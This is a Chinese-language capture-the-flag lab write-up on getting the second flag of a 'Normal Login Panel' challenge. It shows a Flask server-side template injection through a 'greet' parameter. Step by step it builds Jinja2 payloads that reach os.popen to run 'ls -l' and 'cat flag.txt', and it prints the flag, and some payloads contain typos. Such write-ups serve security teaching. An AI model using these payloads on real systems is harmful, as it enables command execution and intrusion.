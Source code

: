 # lab_Normal Login Panel_Flag2

1. 這題是要利用上一題得到的 FLAG 當成 admin 的密碼後，就可以成功登入這個系統， 就可以看到這題的 code。
    
    ![截圖 2022-12-19 上午2.04.01.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25882.04.01.png)
    

1. 然後觀察一下程式可以看到程式登入後的行為，可以去 Trace 這一段程式碼，可以大概知道程式的流程。程式登入之後，會去get user name 跟 password，然後丟進 de.seesion.execute，如果登入成功就會進入 login 函數，登入失敗就會回傳 “USer doesn’t exist!”，然後登入成功的話 login function 會去存取 greet 這個參數，假設 geet 參數存在就會把 Hello {greet} 放進render_template_string 函數並回傳。

![截圖 2022-12-19 上午2.19.44.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-19_%25E4%25B8%258A%25E5%258D%25882.19.44.png)

1. 接下來去 Burp Suite 嘗試加入 greet=12345 這個參數跟值，並發出 request來觀察回傳值，可以看到 Server 端會直接回傳 Hello 12345 ，然後嘗試傳 greet={{5*8}}，Server 端會回傳 Hellow 40，到這邊已經可以任意執行想要的內容。

![截圖 2022-12-29 下午6.48.05.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25886.48.05.png)

![截圖 2022-12-29 下午6.51.26.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25886.51.26.png)

1. 接下來就是去找要執行的物件內容，以下就是我一個step byt step by 去找 Object 的過程，然後觀察回傳值來尋找跟思考下一個 Object，並將它加入 greet 的 path，最後就會取得 FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}
    - Set "greet={{[].__class__}}"
    
    ![截圖 2022-12-29 下午7.15.03.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.15.03.png)
    
    - Set "greet={{[].__class__}}"
    
    ![截圖 2022-12-29 下午7.11.03.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.11.03.png)
    
    - Set "greet={{[].__class__.__base__)}}"
    
    ![截圖 2022-12-29 下午7.10.49.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.10.49.png)
    
    - Set "greet={{[].__class__.__base__.__subclasses__()}}"，然後找到 <class ‘os.wrap_close‘> 的 index 是 140。
    
    ![截圖 2022-12-29 下午7.09.59.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.09.59.png)
    
    - Set "greet={{[].__class__.__base__.__subclasses__()[140]}}"
    
    ![截圖 2022-12-29 下午7.10.21.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.10.21.png)
    
    - Set "greet={{[].__class__.__base__.__subclasses__()[140].__init__.}}"
    
    ![截圖 2022-12-29 下午7.09.34.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.09.34.png)
    
    - Set "greet={{[].__class__.__base__.__subclasses__()[140].__init__.__globals__}}"
    
    ![截圖 2022-12-29 下午7.09.16.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.09.16.png)
    
    - Set “greet={{[].__class__.__base__.__subclasses__([140].__init__.__globals__.popen('ls -l').read()}}”，到這邊基本上就可以任意執行指令了。
    
    ![截圖 2022-12-29 下午7.21.53.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.21.53.png)
    
    - Set "greet={{[].__class__.__base__.__subclasses__()[140].__init__.__globals__.popen('cat flag.txt').read()}}"
    
    ![截圖 2022-12-29 下午7.08.42.png](lab_Normal%20Login%20Panel_Flag2%20740f2d4881da458988a655ba561bb82f/%25E6%2588%25AA%25E5%259C%2596_2022-12-29_%25E4%25B8%258B%25E5%258D%25887.08.42.png)